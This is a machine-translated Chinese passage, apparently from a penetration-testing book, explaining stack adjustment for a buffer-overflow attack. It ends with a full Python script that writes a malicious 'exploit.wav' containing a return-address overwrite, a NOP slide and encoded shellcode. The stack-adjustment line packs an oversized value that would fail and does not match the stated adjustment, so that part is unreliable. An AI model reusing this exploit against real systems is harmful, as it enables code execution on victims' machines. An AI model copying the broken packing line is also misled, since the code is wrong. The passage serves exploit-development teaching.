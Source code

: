 现在，这个例子很简单，它可能会为系统提供一个本地攻击，但是有一个问题，我们的攻击失败了，因为它耗尽了空间。如前所述，我们必须调整放置 shell 代码的区域。

# 了解堆叠调整

我们向展示了代码执行在攻击过程中失败，因为我们的第二阶段在内存中破坏了第一阶段的代码。因此，我们需要更多的堆栈空间来完成此攻击。我们可以在必要时将代码拆分到内存中，也可以简单地扩展堆栈中的空间。

这是通过告诉系统向 ESP 添加空间来完成的。您可以通过以下两种方式之一来完成：添加负空间或减去正空间。这是因为正如我们前面提到的，堆栈从高地址增长到低地址。

![Understanding stack adjustments](graphics/B04315_08_37.jpg)

因此，我们看到我们正在利用此漏洞攻击外壳代码，因此我们可以通过告诉 ESP 移动以容纳必要的空间来进行补偿。

![Understanding stack adjustments](graphics/B04315_08_38.jpg)

为此，我们需要在外壳代码的前面添加一个十六进制调整。我们将用两种不同的方式来实现这一点。我们将在本节中重点介绍的第一种方法。然后，我们将在反转 Metasploit 有效负载时解释第二种方式。首先，我们需要弄清楚如何调整实际堆栈；我们可以通过`nasm_shell.rb in the /usr/share/metasploit-framework/tools/nasm_shell.rb`来实现这一点。

堆栈调整 80000 意味着我们要将该值添加到 ESP。为此，我们需要计算 80000 的 ESP 调整，但对于该计算，我们需要将 80000 更改为十六进制值。十六进制的等价物是 13880。

![Understanding stack adjustments](graphics/B04315_08_39.jpg)

### 提示

您可以使用内置的 Windows 计算器在科学模式下从十进制更改为十六进制，反之亦然。

这意味着我们将以下代码添加到我们的漏洞中以调整堆栈`adjustment = struct.pack('<I',0x81EC80380100)`。然后，我们在外壳代码前面加上调整值`exploit = fill + eip + offset + adjustment + shell`。最后，我们移除 NOP 底座，因为这并没有填充我们的第二阶段将包含的空间，最终的代码将类似于此。

```
#!/usr/bin/env python
import struct
filename="exploit.wav"
fill ="A"*4112
eip = struct.pack('<I',0x7C874413)
offset = "\x90"*10
available_shellcode_space = 320
adjustment = struct.pack('<I',0x81EC80380100)
shell =("\xba\x16\xdf\x1b\x5d\xd9\xf6\xd9\x74\x24\xf4\x5e\x31\xc9\xb1"
"\x2d\x31\x56\x13\x83\xc6\x04\x03\x56\x19\x3d\xee\xa1\x4f\x2a"
"\x56\xb2\x76\x53\xa6\xbd\xe8\x9d\x82\xc9\x95\xe1\xbf\xb2\x58"
"\x62\xc1\xa5\x29\xc5\xe1\x38\xc7\x61\xd5\xa0\x16\x98\x27\x15"
"\x81\xc8\x89\x5f\xbc\x11\xc8\xe4\x7e\x64\x3a\xa7\x18\xbe\x08"
"\x5d\x07\x8b\x07\xd1\xe3\x0d\xf1\x88\x60\x11\x58\xde\x39\x36"
"\x5b\x09\xc6\x6a\xc2\x40\xa4\x56\xe8\x33\xcb\x77\x21\x6f\x57"
"\xf3\x01\xbf\x1c\x43\x8a\x34\x52\x58\x3f\xc1\xfa\x68\x61\xb0"
"\xa9\x0e\xf5\x0f\x7f\xa7\x72\x03\x4d\x68\x29\x85\x08\xe4\xb1"
"\xb6\xbc\x9c\x61\x1a\x13\xcc\xc6\xcf\xd0\xa1\x41\x08\xb0\xc4"
"\xbd\xdf\x3e\x90\x12\x86\x87\xf9\x4a\xb9\x21\x63\xcc\xee\xa2"
"\x93\xf8\x78\x54\xac\xad\x44\x0d\x4a\xc6\x4b\xf6\xf5\x45\xc5"
"\xeb\x90\x79\x86\xbc\x02\xc3\x7f\x47\x34\xe5\xd0\xf3\xc6\x5a"
"\x82\xac\x85\x3c\x9d\x92\x12\x3e\x3b")
exploit = fill + eip + offset +adjustment + shell
open('exploit.wav', 'w').close()
writeFile = open (filename, "w")
writeFile.write(exploit)
writeFile.close()
```
